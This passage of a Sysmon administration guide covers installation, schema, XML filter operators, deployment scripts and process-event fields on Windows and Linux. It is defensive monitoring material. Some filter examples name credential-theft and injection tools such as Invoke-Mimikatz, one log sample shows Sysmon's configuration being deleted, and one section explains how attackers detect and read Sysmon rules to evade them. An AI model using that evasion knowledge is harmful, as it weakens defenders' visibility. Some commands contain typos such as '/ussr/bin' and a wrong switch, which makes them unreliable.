* **Sysmon.exe** - x86 and x64 version.

* **Sysmon64.exe** - 64bit only version.

When using the tool, any errors will result in an error message and help information with basic switches. To see only the help information for the tool, the **-?** switch parameter is used. This help information will include:

* Parameter sets for installation, configuration, and uninstall

* Common command line parameters.

* General notes on how the tool works and further details on how to get more help information.

The parameters of the tool and the structure of the XML configuration file are defined in the tool Schema. This schema can be printed using the **-s "PrintSchema"** parameter; if no schema version is provided, it will print the default schema.

The tool can be run in 4 main modes; 3 of them are shown in the help message:

* **Install** - Install the driver, manifest and service on the host.

* **Configure** - Parses a given configuration file or command line parameters to generate a configuration that is stored in the registry.

* **Uninstall** - Removes the driver and service from the host.

The semi-hidden and undocumented method is Debug, in which a specified configuration is parsed, and live events are shown in the console.


The key parameter that initiates the installation mode of Sysmon is the **-i** switch. The installation process will be as follows:

* Decompresses and saves driver and copy of itself in to **%systemroot%**

* Registers event log manifest

* Creates a service

* Enables a default configuration (ProcessCreation, ProcessTermination, DriverLoad , FileCreationTimeChanged, SHA1 for Images) if no configuration file is passed using the **-c \<configuration file\>** parameter

The Installation process allows for some obfuscation:

* Driver name can be changed

* Service name can be changed

* Sysmon binary name can be renamed.

These obfuscation changes will also affect registry paths for the driver and processes service keys. All of the obfuscation methods are part of the installation option set.

The installation options are:

* Default -- Driver is installed and named SysmonDrv and service Sysmon

```shell
sysmon.exe --i --accepteula

```

* Renamed Driver -- The driver file and registry entry are renamed. Name has an 8-character limit.

```shell
sysmon.exe -i -d <drivername>
```

* Renamed Service -- The executable name defines the service name.

```shell
<renamed sysmon>.exe -i -d <drivername>
```

The installation process on a x64 system with the binary named sysmon.exe that is intended to work across x64 and x86 architectures is shown below. This is important since some of the actions may cause confusion or trigger alerts on monitoring systems.

One important thing to keep in mind when obfuscating the driver name and service name is that certain characteristics remain the same.

* Service description remains the same. (This can be modified post-install.)

* Driver Altitude number remains the same.

* The eventlog remains the same so as to not break collection from SIEM products.







Sysmon will create 2 registry keys to define the services for its operation under ***HKLM\\SYSTEM\\CurrentControlSet\\Services***

* Sysmon - Service that talks to the driver and performs the filtering action. It is named with the same name as the Sysmon executable.

* SysmonDrv - Kernel Driver Service, this service loads the Sysmon driver with an altitude number of 385201

The settings for each service are:

Main Service:

* Name: **Name of the executable (default Sysmon or Sysmon64)**

* LogOn: **Local System**

* Description: **System Monitor service**

* Startup: **Automatic**

* ImagePath: **%windir%\\\<exe name\>**

Driver Service:

* Name: **SysmonDrv unless --d \<name\> is**

* LogOn: **Local System**

* Description: **System Monitor driver**

* Startup: **Automatic**

* ImagePath: **\<driver name\>.sys**

An XML configuration file can be passed during installation if an initial configuration needs to be set. This is the preferred method for production systems since a configuration file can cover all types and logic. The most used method is to pass a configuration file using the **-c \<config file\>** parameter.

```shell
sysmon.exe -i --accepteula -c <config file>
```

If the configuration specifies a archive folder using the ```<ArchiveDirectory>``` element the **-a \<archive folder\>** needs to be specified in the command line so that Sysmon can create the folder and set the proper permissions for version 11.0 of Sysmon, for version 11.1 the parameter was removed and now it is configured via the configuration file. If the folder is not present and even if specified Sysmon will create a folder named **Sysmon** instead and use that folder to archive the deleted files. 

We can control the hashing algorithm used for events that hash images and we can control checking of revocation of signatures.

The hashing algorithm or combination of them can be specified with the **-h \<sha1\|sha2\|md5\|imphash\|\*\>** The specified algorithms will be used to hash all images.

```shell
sysmon.exe -i -c -h <sha1|sha2|md5|imphash\|*>
```

We can specify checking to see if certificates are revoked using the -r parameter.

```shell
sysmon.exe -i -c -r

```

SSome basic filtering can be done also from the command line. Only filtering by process name can be done for NetworkConnect, ImageLoad, and ProcessAccess via the command line.

* **NetworkConnect** - Track network connections.

```shell
sysmon.exe -i -c -n [<process,...>]
```

* **ImageLoad** - DLL loading by processes.

```shell
sysmon.exe -i -c -l [<process,...>]
```

* **ProcessAccess** - Processes whose memory is accessed.

```shell
sysmon.exe -i -c -k [<process,...>]
```


To uninstall Sysmon, a binary with the same name as the main service, if renamed, has to be run with the **-u** switch parameter.

```shell
sysmon.exe -u
```

When executed the command will run a series of steps to uninstall the service, driver and remove files for the tool.


There is an undocumented value that can be passed to the **-u** parameter of **"force"** to force the removal of the services even if a stop was not possible.

```shell
sysmon.exe -u force
```


Installation best practices that can be followed to aid and minimize risk when deploying the Sysmon tool include:

* Keep a repository of Sysmon versions archived; Microsoft does not provide older versions for download.

* Sysmon is very dependent on the version of the binary for its configuration. The install/upgrade script should check the binary version for:

  * Upgrade

  * Version for applying initial config

* If a GPO is used to push scheduled tasks for upgrades or to push configuration, use a WMI filter to target the specific version that was tested. Example:

```sql
SELECT * FROM CIM_Datafile WHERE (Name="c:\\Windows\\Sysmon64.exe" OR Name="c:\\Windows\\Sysmon.exe") AND version="10.0.4.1"
```

* Check file versions they don't match release versioning.

* It is better to not push configuration as an XML that gets run from a share or dropped on disk with a scheduled task:

  * Credentials are left that can be recovered via DPAPI for deleted scheduled tasks.

  * The file can be read more easily by an attacker if controls are not properly placed

  * There is a higher chance of human error

  * Better to push values via GPO or other methods with file version checking.

# Sysmon on Linux

## sysinternalsEBPF


 Sysmon for Linux uses its own library “sysinternalsEBPF” to handle the security events monitoring process. The advantages are that eBPF is a technology that allows programs to run in a sandbox in an operating system at the kernel level. The eBPF library will allow for the collection of information on:

* Processes
* System Calls
* Network Sockets

 The “sysinternalsEBPF” library is open sourced and licensed under the MIT License. The source is available in GitHub at <https://github.com/Sysinternals/SysinternalsEBPF> In GitHub the latest installation and build instructions can be found.


The eBPF library leverages a large library of Kernel memory offsets that are stored after installation in a JSON file at **/opt/sysinternalsEBPF/offsets.json** if the kernel is not one in the list it will do an auto discovery of the offsets and add them to **/opt/sysinternalsEBPF/sysinternalsEBPF_offsets.conf** There might be some cases where it will fail to do an autodiscovery of the offsets like in the case of a kernel update. In this case the service will fail to load and provide instructions on how to update the offsets. Bellow is the error that would be displayed in the case that autodiscovery fails.


The GitHub repo instructions on how to build and offset config for the current kernel are provided <https://github.com/Sysinternals/SysinternalsEBPF/tree/main/getOffsets>

## Install and Configuration


Installation under Linux varies given that each Linux distribution and even version of each differ slightly in the steps to install the packages for sysinternalsEBPF and sysmonforlinux. The package installation steps for each distribution and is maintained in github at <https://github.com/Sysinternals/SysmonForLinux/blob/main/INSTALL.md>. The solution can be compiled and installed from source but it is not recommended for a production environment since it will add more complexity in the tracking of versions of dependencies and also introduced other packages that can be abused by an attacker if they gain access tto the system.

The package installation process will create a sysmon elf binary as /usr/bin/sysmon this binary will be used to install and configure the service.

When using the tool, any errors will result in an error message and help information with basic switches. To see only the help information for the tool, the **-?** switch parameter is used. This help information will include:

* Parameter sets for installation, configuration, and uninstall

* Common command line parameters.

* General notes on how the tool works and further details on how to get more help information.

The parameters of the tool and the structure of the XML configuration file are defined in the tool Schema. This schema can be printed using the **-s "PrintSchema"** parameter; if no schema version is provided, it will print the default schema.

The tool can be run in 4 main modes; 3 of them are shown in the help message:

* **Install** - Install the driver, manifest and service on the host.

* **Configure** - Parses a given configuration file or command line parameters to generate a configuration that is stored in the registry.

* **Uninstall** - Removes the driver and service from the host.


The key parameter that initiates the installation mode of Sysmon is the **-i** switch. The installation process will be as follows:

* Decompresses and copy of itself in to **/opt/sysmon**

* Creates a systemd service

* Enables a default configuration (ProcessCreation and ProcessTermination) if no configuration file is passed to the **-i** parameter.

The **-accepteula** parameter needs to be passed to accept the EULA for the tool.


To uninstall Sysmon, a binary with the same name as the main service, if renamed, has to be run with the **-u** switch parameter.

```bash
/opt/sysmon/sysmon -u
```

When executed the command will run a series of steps to uninstall the service and remove files for the tool from **/opt/sysmon**.

The value of **force** can be passed to the **-u** parameter fo force uninstallation.

```bash
/opt/sysmon/sysmon -u force
```

# Configuration


The configuration options of Sysmon and the structure of the configuration file are defined in its schema. Each version of Sysmon that adds capabilities raises the schema version, and this version number is not tied to the binary version number.

To take a look at this schema, we would run the binary with the  **-s \[schema version\]** parameter; if no schema version is specified, we would get the latest one for the binary.

When we look at the XML representation of the schema, we see the manifest element has two attributes for versioning:

* **schemaversion** - The version number of the schema

* **binaryversion** - The binary version number of the compiled schema

Under this manifest element are two main elements:

* **configuration** - Command line switches for the executable and the filtering operators
* **events** - This section defines each event type and field we can filter on


Under the configuration element, we have an element called options that contains all the command line parameters. Each of the option elements are broken in to command line and configuration options where each type of the command line switches is identified with a comment in the XML.

The main attributes for each of the command-line options:

* **switch** - the command line switch to use.

* **name** - name of the switch.

* **argument** - is the argument optional or mandatory


Not all command parameters shown in the Schema apply to Sysmon for Linux, both tools share the general schema but in the Linux version only a subset of the parameters are implemented.

Windows Parameters:

The main arguments that can be passed are:

* **-i** : Install Sysmon

```shell
sysmon.exe -i [configfile path]
```

```shell
sysmon. -i [configfile path]
```

* **-c** : apply config

```shell
sysmon.exe -c [configfile path]
```

* **-u** : un-install Sysmon

```shell
sysmon.exe -u [force]
```

* **-m** : Install event manifest (Windows Only)

```shell
sysmon.exe -m
```

* **-t** : Debug mode (Windows Only)

```shell
sysmon.exe -t [configfile path]
```

* **-s** : Print schema

```shell
sysmon.exe -s [schema version]
```

* **-nologo** : don't show sysmon logo (Windows Only)

```shell
sysmon.exe -nologo
```

* **-accepteula** : Accepts the license agreement

```shell
sysmon.exe -accepteula
```

* **--** : Resets the configuration to the default

```shell
sysmon.exe -c --
```

The option elements under the comment "Configuration file" allow for the configuration of filters and parameters that relate to filters.

* **-h** : Hashing algorithm to has images. (Windows Only)

```shell
sysmon.exe -c -h <sha1|sha2|md5|imphash|*>
```

* **-r** : Check for signature certificate revocation (Windows Only)

```shell
sysmon.exe -c -r
```

* **-n** : Track network connections for specified process/processes.

```shell
sysmon.exe -c -n [<process,...>]
```

* **-k** : Track when a specified process/processes memory are accessed. (Windows Only)

```shell
sysmon.exe -c -k [<process,...>]
```

* **-l** : Track modules (DLLs) loaded by a specified process/processes. (Windows Only)

```shell
sysmon.exe -c -k [<process,...>]
```

* **-d** : Rename the sysmon driver during install (8 character limit) (Windows Only)

```shell
sysmon.exe -i -c -d <drivername>
```

> **-g** and **--dns** switches are listed but as of the current version, they (Windows Only)
> do not update the configuration.

Sysmon for Linux parameters are:

The main arguments that can be passed are:

* **-i** : Install Sysmon

```shell
/usr/bin/sysmon  -i [configfile path]
```

* **-c** : apply config

```shell
/usr/bin/sysmon -c [configfile path]
```

```bash
/ussr/bin/sysmon -u [force]
```

* **-s** : Print schema

```shell
/ussr/bin/sysmon -s [schema version]
```

* **-accepteula** : Accepts the license agreement

```shell
/ussr/bin/sysmon -accepteula
```

* **--** : Resets the configuration to the default

```shell
/ussr/bin/sysmon -c --
```

The option elements under the comment "Configuration file" allow for the configuration of filters and parameters that relate to filters.

* **-n** : Track network connections for specified process/processes.

```bash
/ussr/bin/sysmon -c -n [<process,...>]
```


In the filters element under configuration is the list of operators that can be used to filter against the fields of each event type.

|  **Operator**     |  **Meaning**
|------------------|------------------------------------------------------
|  is|             Exact match.
|  is not|          Negates and exact match
|  is any|         Any of the exact values. (values are separate by ";" )
|  contains|       The string is contained in any part of the value of the field.
|  excludes |      Excludes the event from the logic if the event is the value matches
|  excludes all|   Exclude if all values match. (values are separate by ";" )
|  excludes any |  Excludes if any of the values match. (values are separate by ";" )
|  image |         Name of the image without the full path.
|  begins with |    String value starts with the specified string.
|  not begins with| String value does not starts with the specified string.
|  ends with |      String value ends with the specified string.
|  not ends with|  String value ends with the specified string.
|  LessThan  |     Numeric value is less than
|  MoreThan |      Numeric value is more than
|  Contain Any |   Contains any of the values. (values are separate by ";" )
|  Contains All |  Contains all of the values. (values are separate by ";" )

Each of these operators execute against the value in a given field for each of the event types.


Below are practical examples demonstrating how to use each filter operator in Sysmon configurations:


Matches an exact value. Case-sensitive for strings.

```xml
<RuleGroup name="" groupRelation="or">
  <ProcessCreate onmatch="include">
    <!-- Match exact process name -->
    <Image condition="is">C:\Windows\System32\cmd.exe</Image>
  </ProcessCreate>
</RuleGroup>
```


Negates an exact match. Includes events that do NOT match the specified value.

```xml
<RuleGroup name="" groupRelation="or">
  <ProcessCreate onmatch="exclude">
    <!-- Exclude everything except cmd.exe -->
    <Image condition="is not">C:\Windows\System32\cmd.exe</Image>
  </ProcessCreate>
</RuleGroup>
```


Matches any of the provided exact values. Values are separated by semicolons (;).

```xml
<RuleGroup name="" groupRelation="or">
  <NetworkConnect onmatch="include">
    <!-- Match connections to common web ports -->
    <DestinationPort condition="is any">80;443;8080;8443</DestinationPort>
  </NetworkConnect>
</RuleGroup>
```


Matches if the specified string is found anywhere within the field value. Case-insensitive.

```xml
<RuleGroup name="" groupRelation="or">
  <ProcessCreate onmatch="include">
    <!-- Match any command line containing "powershell" -->
    <CommandLine condition="contains">powershell</CommandLine>
  </ProcessCreate>
</RuleGroup>
```


Excludes events where the field value matches the specified string.

```xml
<RuleGroup name="" groupRelation="or">
  <ProcessCreate onmatch="include">
    <!-- Include processes but exclude those from System32 -->
    <Image condition="excludes">\System32\</Image>
  </ProcessCreate>
</RuleGroup>
```


Excludes events only if ALL specified values are present in the field. Values are separated by semicolons (;).

```xml
<RuleGroup name="" groupRelation="or">
  <ProcessCreate onmatch="include">
    <!-- Exclude only if command line contains both strings -->
    <CommandLine condition="excludes all">-NoProfile;-ExecutionPolicy Bypass</CommandLine>
  </ProcessCreate>
</RuleGroup>
```


Excludes events if ANY of the specified values are present in the field. Values are separated by semicolons (;).

```xml
<RuleGroup name="" groupRelation="or">
  <ProcessCreate onmatch="include">
    <!-- Exclude if command line contains any of these strings -->
    <CommandLine condition="excludes any">-EncodedCommand;-enc;-e </CommandLine>
  </ProcessCreate>
</RuleGroup>
```


Matches only the image name without the full path. This is useful for matching process names regardless of their location.

```xml
<RuleGroup name="" groupRelation="or">
  <ProcessCreate onmatch="include">
    <!-- Match cmd.exe regardless of path -->
    <Image condition="image">cmd.exe</Image>
  </ProcessCreate>
</RuleGroup>
```


Matches if the field value starts with the specified string. Case-insensitive.

```xml
<RuleGroup name="" groupRelation="or">
  <ProcessCreate onmatch="include">
    <!-- Match any process starting from user directories -->
    <Image condition="begins with">C:\Users\</Image>
  </ProcessCreate>
</RuleGroup>
```


Matches if the field value does NOT start with the specified string.

```xml
<RuleGroup name="" groupRelation="or">
  <ProcessCreate onmatch="include">
    <!-- Include processes not starting from Windows directory -->
    <Image condition="not begins with">C:\Windows\</Image>
  </ProcessCreate>
</RuleGroup>
```


Matches if the field value ends with the specified string. Case-insensitive.

```xml
<RuleGroup name="" groupRelation="or">
  <FileCreate onmatch="include">
    <!-- Match files with specific extensions -->
    <TargetFilename condition="ends with">.exe</TargetFilename>
  </FileCreate>
</RuleGroup>
```


Matches if the field value does NOT end with the specified string.

```xml
<RuleGroup name="" groupRelation="or">
  <FileCreate onmatch="include">
    <!-- Include files that don't end with .txt -->
    <TargetFilename condition="not ends with">.txt</TargetFilename>
  </FileCreate>
</RuleGroup>
```


Compares numeric values. Matches if the field value is less than the specified number.

```xml
<RuleGroup name="" groupRelation="or">
  <NetworkConnect onmatch="include">
    <!-- Match connections from low source ports (system/privileged range) -->
    <SourcePort condition="less than">1024</SourcePort>
  </NetworkConnect>
</RuleGroup>
```


Compares numeric values. Matches if the field value is greater than the specified number.

```xml
<RuleGroup name="" groupRelation="or">
  <NetworkConnect onmatch="include">
    <!-- Match connections to dynamic/ephemeral ports -->
    <DestinationPort condition="more than">49151</DestinationPort>
  </NetworkConnect>
</RuleGroup>
```


Matches if the field contains ANY of the specified strings. Values are separated by semicolons (;).

```xml
<RuleGroup name="" groupRelation="or">
  <ProcessCreate onmatch="include">
    <!-- Match command lines containing any suspicious keywords -->
    <CommandLine condition="contains any">Invoke-Mimikatz;Invoke-ReflectivePEInjection;Invoke-Shellcode</CommandLine>
  </ProcessCreate>
</RuleGroup>
```


Matches if the field contains ALL of the specified strings. Values are separated by semicolons (;).

```xml
<RuleGroup name="" groupRelation="or">
  <ProcessCreate onmatch="include">
    <!-- Match only if command line contains all specified strings -->
    <CommandLine condition="contains all">powershell;-WindowStyle Hidden;-EncodedCommand</CommandLine>
  </ProcessCreate>
</RuleGroup>
```


Operators can be combined within a single Rule element to create more complex filtering logic:

```xml
<RuleGroup name="" groupRelation="or">
  <ProcessCreate onmatch="include">
    <Rule name="Suspicious PowerShell" groupRelation="and">
      <!-- Match PowerShell process -->
      <Image condition="image">powershell.exe</Image>
      <!-- With encoded command -->
      <CommandLine condition="contains">-EncodedCommand</CommandLine>
      <!-- But not from System32 -->
      <Image condition="not begins with">C:\Windows\System32\</Image>
    </Rule>
  </ProcessCreate>
</RuleGroup>
```


When using filter operators, be aware that some operators consume more CPU resources than others. The operators that use slightly more resources are:

* contains
* contains all
* contains any

For high-performance environments, prefer exact match operators (`is`, `is any`) or path-based operators (`begins with`, `ends with`) when possible.


Under the events element each event that Sysmon generates is defined as an event element. Each event is defined as shown below:

* **name** : Name of event

* **value** : The EventID for the event

* **level** : Event severity level

* **template** : Event manifest template used for the event

* **ruleName** : Name of rule we filter on

* **ruledefault** : The default action of a rule if not specified

* **version** : The version of the event


We can filter on the Field Names defined in the data elements. They are defined as:

* **Name** : Name of filed

* **inType** : Type of data received in to the driver

* **outType** : Data type the data is presented as


As of the latest version we have defined as event types, one does need to be aware that not all fields and all event types will apply to both Sysmon fo Windows and Sysmon for Linux:

* **NetworkConnect** - Network connections made by processes on the system; both TCP and UDP

* **ProcessCreate** - Creation of new processes in the system and information related to the process

* **FileCreateTime** - File creation time modification and what process is responsible for it

* **ProcessTerminate** - The termination of a process

* **ImageLoad** - Loading of any image by another process (OCX, DLL, etc.) with information of the process loading the image and the image itself

* **DriverLoad*** - Loading of a driver by the system and its file information

* **DnsQuery** - DNS query performed by a process using Windows API, includes information on the query and the process that performed it

* **ProcessAccess** - Access to a process memory from another process and information on access permission and the processes involved

* **RawAccessRead** - Raw access to a file by a process bypassing the file system controls

* **FileCreateStreamHash** - An alternate stream was created and the content of the stream is hashed; information on the process that created the stream is logged

* **RegistryEvent** - Logs the creation, deletion, and modification of specific registry keys and values; information on the process that took the action is logged

* **FileCreate** - Information of a file that is created including the process that created the file

* **PipeEvent** - Named Pipe communication between two processes and its relevant information

* **WmiEvent** - Information on the creation, deletion, and modification of WMI permanent event components in the CIM database

* **FileDelete** - Saves when possible and logs file deletion or file wipes.

* **ClipboardChange** - Stores and logs text that is stored in to the clipboard by processes and context of who stored the text.

* **ProcessTampering** - Detects some of the techniques of "hollow" and "herpaderp" where a process image is replace.

* **FileDeleteDetected** - Only logs file deletion or file wipes.


The main method of configuration of Sysmon is through the use of XML configuration files. XML configuration files allow for higher flexibility since more filtering options are possible by applying logical operations to the fields that are defined by the schema version for the event types.

Previous schemas can be used in newer releases of the binary allowing for upgrading of the binary without the need to update the configuration. The schema is defined on the root element (Sysmon) of the configuration file with the attribute **schemaversion**.


We can optionally specify a hashing algorithm with the HashAlgorithms elements. More than one can be specified in this element or all of them using the \* symbol.
The presence of the CheckRevocation element is enough to allow for checking whether a certificate used to sign an image has been revoked. There are three main ways to organize filters with the latest version of Sysmon.

* EventType filters.

* EvenType Filters organized using RuleGroups

* EventType Filters organized in to Rule sets inside RuleGroups.

We can have up to two instances of each EventType (one include and one exclude) for the entire configuration, whether or not RuleGroups are used. On SchemaVersion 4.22 and above, the default relation between filters is AND.


Below is an example where if the filters match, they are included and placed in the EventLog using an intrinsic AND logic.


This type of configuration is only good with Schema 4.22 and above. It is recommended that this is used only for quick tests due the limitation of the AND logic for filters.


The RuleGroup element allows for the modification of the logic of the filters and also allows for more complex logic since multiple Rule elements with multiple filters can be created and the logic for the filters can be modified in order to capture actions in a more granular way.


Remember: You can only have one single EventType per RuleGroup. Sysmon will not error if you have more than one, but only the first EventType filters will be loaded.

In a RuleGroup element, the name attribute is not used to populate the RuleName field of an event when one is created. While it may be used for a description, XML comments are a better option. When choosing the name to go in the RuleName field, the order of precedence for RuleName is Filter -> RuleGroup name attributes. It is recommended that names be placed on the individual filters to be able to leverage the field more efficiently when filtering logs on a SIEM platform. One thing to keep in mind is that when multiple filters are in a Rule element, only the first filter name attribute is used.

When using AND in a Rule element, the name used to populate the RuleName will be based on the order of the filters as they appear on the schema where the last matching one is the one used. When using OR in a Rule element, the name used to populate the RuleName will be the filter that matches.

Rules are processed in the order they are placed in the configuration file. This is important because once a Rule matches and the information for that EventType is included in the Windows EventLog, no other rule will be processed against that action. Filters that are not in a Rule element will be processed in the order that they appear in the schema. This also applies to multiple filters inside a Rule where the schema order is used.


It is important to track what a configuration does and keep a changelog. For this reason, it is recommended to add headers to track basic information like changelog, version, sysmon version tested against, etc.


For RuleGroups, Rules and Filters use comments to organize filters and to provide information on what each filter is doing.


Hash configurations that are deployed and keep a log of them for later
verification.

Hash configurations that are deployed and keep a log of them for later verification.
On a system where the Sysmon service process consumes a lot of CPU resources, the number of filters and operators should be reviewed. The operators that use slightly more CPU are:

* contains

* contains all

* contains any

A method for checking applied configuration is hashing the configuration
in the registry.
<https://github.com/PSGumshoe/PSGumshoe/blob/master/EventLog/Get-SysmonRuleHash.ps1>


Since getting stated can be complex, some great resources that serve as starting points for Rule development and reference include:

* Swift On Security configuration example
    <https://github.com/SwiftOnSecurity/sysmon-config>

* Olaf Hartong Sysmon Configuration Modules
    <https://github.com/olafhartong/sysmon-modular>


One of the actions an attacker takes is the identification of controls and logging on a system.

Due to initial footprint and safety, most advanced attackers limit their actions to enumerate controls to the most common actions that elements that will trigger a monitoring solution. The most common methods used are:

* Service list.

* Process list.

* Listing of installed applications from the registry (In the case of Windows).

This does not mean that an attacker will not use more advanced methods to enumerate controls and find Sysmon on the system.

Detection of Sysmon in Windowss is achieved by looking at the areas that cannot be changed.

  **Indicator**               | **Can it be Changed**
  ----------------------------| -----------------------
  |Driver Name|                  YES
  |Service Name|                 YES
  |Registry Config Path|         YES
  |Driver altitude Number|       NO
  |EventLog Path and Name|       NO
  |Sysmon Service Description|   NO (Manually)

When Sysmon configuration is modified using the Sysmon command line tool, an **EventId 16** is generated. If the registry binary value is modified directly, no event is generated, and configuration is applied as soon as the value is modified.

On Windows when a GPO is used to update configuration by default every 90 minutes, the configuration will be updated. A better solution is to use a configuration management solution like DSC that can monitor for changes and update as soon as a change is detected.

In the case of Linux a solution like Puppet or Ansible is recommended where the configuration file in **/opt/sysmon/config.xml** and **/opt/sysmon/rules.bin**.

Sysmon can be configured to monitor its own configuration to detect whether an attacker deletes or alters it. In the event that it is cleared, this will be the last event logged by Sysmon itself from its configured filters.


In the case of Sysmon for Linux the behavior is the same

```

Event SYSMONEVENT_CREATE_PROCESS
 RuleName: -
 UtcTime: 2021-10-17 22:30:12.058
 ProcessGuid: {2424faa4-a3f4-616c-e1b4-2270fe550000}
 ProcessId: 141030
 Image: /usr/bin/rm
 FileVersion: -
 Description: -
 Product: -
 Company: -
 OriginalFileName: -
 CommandLine: rm /opt/sysmon/rules.bin
 CurrentDirectory: /home/carlos/Desktop
 User: root
 LogonGuid: {2424faa4-0000-0000-0000-000000000000}
 LogonId: 0
 TerminalSessionId: 3
 IntegrityLevel: no level
 Hashes: -
 ParentProcessGuid: {2424faa4-a3f4-616c-d5ab-cd1b11560000}
 ParentProcessId: 141029
 ParentImage: /usr/bin/sudo
 ParentCommandLine: sudo
 ParentUser: carlos
Event SYSMONEVENT_FILE_DELETE
 RuleName: -
 UtcTime: 2021-10-17 22:30:12.062
 ProcessGuid: {2424faa4-a3f4-616c-e1b4-2270fe550000}
 ProcessId: 141030
 User: root
 Image: /usr/bin/rm
 TargetFilename: /opt/sysmon/rules.bin
 Hashes: -
 IsExecutable: -
 Archived: -
```

```
Event SYSMONEVENT_CREATE_PROCESS
 RuleName: -
 UtcTime: 2021-10-17 22:30:24.113
 ProcessGuid: {2424faa4-a400-616c-e194-bfcc63550000}
 ProcessId: 141036
 Image: /usr/bin/rm
 FileVersion: -
 Description: -
 Product: -
 Company: -
 OriginalFileName: -
 CommandLine: rm /opt/sysmon/config.xml
 CurrentDirectory: /home/carlos/Desktop
 User: root
 LogonGuid: {2424faa4-0000-0000-0000-000000000000}
 LogonId: 0
 TerminalSessionId: 3
 IntegrityLevel: no level
 Hashes: -
 ParentProcessGuid: {2424faa4-a400-616c-d57b-eebae9550000}
 ParentProcessId: 141035
 ParentImage: /usr/bin/sudo
 ParentCommandLine: sudo
 ParentUser: carlos
Event SYSMONEVENT_FILE_DELETE
 RuleName: -
 UtcTime: 2021-10-17 22:30:24.115
 ProcessGuid: {2424faa4-a400-616c-e194-bfcc63550000}
 ProcessId: 141036
 User: root
 Image: /usr/bin/rm
 TargetFilename: /opt/sysmon/config.xml
 Hashes: -
 IsExecutable: -
 Archived: -
```

In case the configurations are cleared, the default one will take over, in the case of Windows:

* **ProcessCreation**

* **ProcessTermination**

* **DriverLoad**

* **FileCreationTimeChanged**

* **SHA1 for Images**

For Linux the default configuration is:

* **ProcessCreation**

* **ProcessTermination**

In the case of Windows any user in the system can read the rule binary data, an attacker can operate around rule configurations once they have read them by:

* Execute tasks not logged.

* Execute tasks that would blend in with normal logged actions

Existing tools for parsing rules out of the registry break often as Sysmon is updated, since the way the information is structured in the binary blob is not documented. However, an attacker can export and import into the test system and use Sysmon to read the configuration.

Tools that allow to recover the XML configuration file from the binary blob stored in the registry:

- https://github.com/thejanit0r/sysmon-bin2xml
- https://github.com/mattifestation/PSSysmonTools

It is also important to monitor any process that access the Sysmon service process to prevent suspension of the process or modification of it in memory.

For Linux only the root account can read and modify the the sysmon configuration file and its binary info. But the syslog file on most systems


Most environments that have the capabilities to leverage Sysmon enhanced log collection also have software deployment systems like Altiris, System Center Configuration Manager, Desired State Configuration, etc for Windows in the case of Linux we can leverage Ansible, Chef, Puppet and many other solutions. This is why these are just general recommendations.


Syslog message size limits are dictated by the syslog transport mapping in use. By default the rsyslog package which is one of the most popular packages in distributions limit the size to 1024 bytes. It is important to prevent parsing errors of the structured data to set max sizes that match the size and transport of the messages configured for your given Syslog package. This is achieved using the **FieldSizes** XML element and setting a size for the CommandLine and Image field sizes. We can specify the field and the length we want for the field like in the example bellow.

```xml
<Sysmon schemaversion="4.81">
  <FieldSizes>CommandLine:100,Image:100</FieldSizes>
  <EventFiltering>
    
  </EventFiltering>
</Sysmon>
```

Fields that could benefit of this are:

* Image
* ParentImage
* CommandLine
* ParentCommandLine


On most of these environments, the deployment of Sysmon is managed by using scripts, with PowerShell being the most flexible one.

An install script should

* Check if Sysmon is installed; if not, Install.

* If Sysmon is installed, check the version and upgrade if needed.

* After an uninstall, ensure the registry key and files are removed before upgrading. (There have been issues in the past.)

```PowerShell
$DriverName = 'SysmonDrv.sys'
$CurrentVersion = '10.41'
$Present = Test-Path -Path "C:\Windows\$($DriverName)" -PathType Leaf
if ($Present) {
    Write-Host -Object "[+] Sysmon was found." -ForegroundColor Green
    # Check if the version on host is the approved one.
    $HostVersion = (Get-Item "C:\Windows\$($DriverName)").VersionInfo.FileVersion
    if ($CurrentVersion -eq $HostVersion) {
        Write-Host -Object "[+] Sysmon is current approved version." -ForegroundColor Green
    } else {
        # Execute upgrade process.
        Write-Host -Object "[-] Sysmon needs upgrade." -ForegroundColor Red
     <path to Sysmon.exe> -U
        <path to Sysmon.exe> -I
    }
} else {
    # Execute install process.
}
```


Group Policy remains one of the most used methods in the enterprise network for the control of configuration setting.

The following are instructions on how to create a GPO for an existing applied configuration.

1. In the Group Policy Management Console (**gpmc.msc**)

2. Create a new (or edit an existing) GPO and assign it to the appropriate Active Directory Organizational Unit.

3. Right click on the GPO and select **Edit**

4. Expand **Configuration -\> Preferences -\>Windows Settings -\> Registry**

5. Right Click on Registry **New -\> Registry Wizard**

   {width="6.5in" height="3.3125in"}

6. Select if local or remote machine.

7. Navigate and select the key **HKLM\\SYSTEM\\CurrentControlSet\\Services\\SysmonDrv\\Parameters** and all parameters under it.

  

A WMI filter will ensure only machines with the proper version of Sysmon installed will receive the configuration.

# Sysmon Events

## Process Events


Sysmon can log process creation, process termination and process access events. For Windows the process events are captured via ObjRegisterCallbacks at the kernel level using its driver, and contain a unique, deterministically generated ProcessGuid and LogonGuid that are unique to their process instance and LSA logon session respectively.

The ProcessGuid and LoginGuid make tracking individual process and users much easier. The ProcessGuid attribute is used in all events associated with its process, and, unlike a ProcessID, will not be reused by the host system later.  The LogonGuid attribute similarly is assigned to a login session of a particular user, and will not be reused later as a LoginID would.



The ProcessGUID depending on the event and where in the process tree it
is, it will also be known by other names by its relation to the action
monitored.

ProcessGUID is generated by Sysmon when Sysmon logs the event.  ProcessGUID 
specifically is not an attribute of the internal Windows process data structs
(EPROCESS).  Sysmon keeps track of the GUID until the process exits.

In Linux the process for generating the ProcessGuid is similar to Windows with the exception that the hexadecimal value in **/etc/machine-id**, this hexadecimal value is unique per host, it is usually generated from a random source during system installation or first boot and stays constant for all subsequent boots. Optionally, for stateless systems, it is generated during runtime during early boot if necessary.



The ProcessGUIs is referenced in several events under different names.


The only Event Types that will not reference a ProcessGuid or one of its
derived names are

* WMI events

* Kernel Driver Load

All processes associated to a unique logon session can be mapped using the LogonGuid field. This field is generated using similar values as the ProcessGuid with the exception that instead of a process Id it uses in the case of Windows the Logon Session hexadecimal value and in the case of Linux the Logon Id to generate a unique identifier to match all actions taken.

For Windows



For Linux


When a user logs onto on a modern version of Windows (Windows 2016/10)
they will have 2 Logon IDs assigned if:

* User is a member of local Administrator Group.

* UAC (User Access Control) is enabled.

These sessions will be linked by a Linked Login ID in Successful Logon
Event ID 4624, making the logging of this event important.

The image of the process is also related in other processes and can be
used to track all actions related to a specific one.


### Process Creation


Sysmon will log **EventID 1** for the creation of any new process when it registers with the kernel. This is arguably the single most important event type that Sysmon provides, and understanding how to configure it effectively is critical for any detection engineering program.


